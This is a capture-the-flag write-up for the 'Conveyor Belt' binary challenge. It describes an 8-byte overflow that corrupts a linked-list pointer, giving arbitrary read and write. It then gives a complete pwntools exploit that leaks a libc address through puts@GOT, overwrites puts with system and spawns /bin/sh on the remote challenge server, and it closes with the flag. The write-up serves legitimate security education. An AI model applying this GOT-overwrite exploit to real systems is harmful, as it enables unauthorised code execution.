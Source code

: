 # Conveyor Belt

Conveyor belt.

Running the binary, we have two options - add a part to the conveyor belt, and review the belt. When we review the belt, it goes through all the parts we have one by one, printing them, asking us if they are safe. If we say they aren't(that is, not responding with 'Y' or 'y') then we can edit the part.

Let's chuck it into ghidra and see what more we can get.

First of all, we see that the add_part function is like so -
It seems to take a parameter being the address of the previous part.
allocate 0x80 bytes of data. Read 0x80 bytes of data from stdin into this place. 
If the string contains "sh", say the part isn't safe, free the allocated data, return the parameter we got(essentially dont make any chunk and pretend nothing ever happened)

If not, then edit datapointer+0x78 to be the address of the previous part. Essentially, the parts are in the structure
```c
struct part {
char name[0x78];
char* previous_part;
}
```

Forming a list. The problem is, whenever it asks us to edit a part, it reads 0x80 bytes when only 0x78 are the data segment - giving us an overwrite of the previous_part field. More on this later.

Let's look at the safety check function. It starts on the last part, printing it, asking is if it's safe, and allowing us to edit it if it isn't. Here's our main vuln. An extra 8 bytes are read, letting us overwrite the previous_part field. The function then grabs the previous part field, visits that, prints it, asks if it's safe, etc. etc. until it hits a previous_part field of 0.

What can we do with this? We can create a single part, then activate the safety check. We can edit the previous part field in-place, and then it'll go wherever we want for the next part! This creates two things

1. Arbitrary read, as it'll print out the part.
2. Arbitrary write, as we can say the part isn't safe, and then edit it.
Therefore...
We can set the previous part field to puts@GOT, allowing us to read a libc address. Once we read this, we'll edit puts@GOT too! Let's edit it with the address of system.

Now what? It'll look 0x78 bytes later for the address of the next part, then continue. It'll grab this address, call puts("Next part:") and then calls puts on the next part.

Therefore, if we pretend the next part is the address of /bin/sh, it'll call system("/bin/sh") for us. So, our exploit:

1. Create new part
2. Safety check. Say the part isn't safe. Edit it with 0x78 bytes of junk + address of puts@GOT
3. It'll print the value of puts@got, which is puts@LIBC. Read this value, and subtract appropriate offset to get the libc base. Say part isn't safe. Send system address + 0x70 bytes of junk + /bin/sh address such that whenever it calls puts it'll actually call system, and the next thing it will call puts on is /bin/sh

Script below.

```python
from pwn import *
mode = sys.argv[1]
NUM_TO_NEXTPART = 0x78
padding = b'A' * NUM_TO_NEXTPART
e = ELF("./conveyor")
libc = ELF("/lib/x86_64-linux-gnu/libc.so.6" if mode == 'local' else "/home/kali/Tools/libc-database/libs/libc6_2.27-3ubuntu1_amd64/libc.so.6")
p = e.process() if mode == 'local' else remote('jh2i.com', 50020)
p.recvuntil(b"> ")
p.sendline("1")
p.recvuntil(b": ")
p.sendline("l33t")
p.sendline("2")
p.recvuntil(b"? ")
p.sendline("no")
p.recvuntil(b": ")
# Setup is done. Time for the main exploit.
payload = padding + p64(e.got['puts'])
p.sendline(payload)
p.recvline()
output = p.recvline()[:-1]
print(output)
leak = output + b'\x00' * (8 - len(output))
puts = u64(leak)
log.info(f"Puts address: {hex(puts)}")
libcbase = puts - libc.symbols['puts']
libc.address = libcbase
log.info(f"Libc base: {hex(libcbase)}")
# Overwrite puts with system. Then, overwrite next part address with /bin/sh. So, it'll load /bin/sh as the next part. It'll try to puts the next part, and boom! Shell popped.
new = p64(libc.symbols['system'])
new += b'B' * (0x78 - len(new))
new += p64(next(libc.search(b"/bin/sh")))
p.sendline(new)
p.interactive()
```

#### Flag: flag{you_broke_the_conveyor}
